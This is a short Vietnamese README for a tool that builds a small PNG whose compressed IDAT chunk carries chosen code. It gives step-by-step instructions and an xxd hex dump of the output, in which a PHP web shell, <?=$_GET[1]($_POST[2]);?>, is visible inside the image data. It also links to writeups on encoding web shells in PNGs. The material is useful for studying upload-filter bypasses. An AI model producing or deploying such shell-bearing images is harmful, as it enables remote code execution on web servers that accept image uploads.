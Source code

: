 # put_code_in_PNG_IDAT_chunk
Tạo ra một file ảnh PNG (32x32) có chứa data hoặc code trong IDAT chunk.

## Cách dùng:
1. Cài đặt thư viện `php-gd`: `sudo apt install php-gd`.
2. Sử dụng [control_zlib_compression](../control_zlib_compression) để tìm một chuỗi byte mà sao khi `zlib.compress()` nó ra sẽ chứa một đoạn code mà mình muốn. Chuyển nó sang hex và thay biến `$s` thành chuỗi hex đó.
3. Chạy code: `php main.php > a.png`.

File `a.png` được tạo ra chính là file cần tìm.
```
$ xxd a.png
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0020 0000 0020 0802 0000 00fc 18ed  ... ... ........
00000020: a300 0000 0970 4859 7300 000e c400 000e  .....pHYs.......
00000030: c401 952b 0e1b 0000 0060 4944 4154 4889  ...+.....`IDATH.
00000040: 6364 5e3c 3f3d 245f 4745 545b 315d 2824  cd^<?=$_GET[1]($
00000050: 5f50 4f53 545b 325d 293b 3f3e 8081 81c1  _POST[2]);?>....
00000060: c472 652a 93fc 8f8b db7e 3fd3 7da2 26f7  .re*.....~?.}.&.
00000070: f1ed c9bf 9faf 067c b431 3065 5eb9 67d3  .......|.10e^.g.
00000080: aa3d 9b18 46c1 2818 05a3 6014 8c82 5130  .=..F.(...`...Q0
00000090: 0a46 c128 1805 c306 0000 86df 1a02 d38e  .F.(............
000000a0: 790f 0000 0000 4945 4e44 ae42 6082       y.....IEND.B`.
```

## Ghi chú: 
1. Phương pháp mà mình tìm hiểu sẽ không hoạt động trên ảnh lớn hơn tầm 50x50 trở lên. Vì lúc đó IDAT chunk lớn quá mà `control_zlib_compress` chỉ hoạt động với payload không quá lớn.
2. Trên ảnh quá nhỏ cũng không được vì ta cố tính sửa pixel trên hàng đầu tiên của ảnh để chỉ phải xử lý filter 1 và 3.

## Tham khảo:
1. https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
2. https://pyokagan.name/blog/2019-10-14-png/
3. https://en.wikipedia.org/wiki/Portable_Network_Graphics
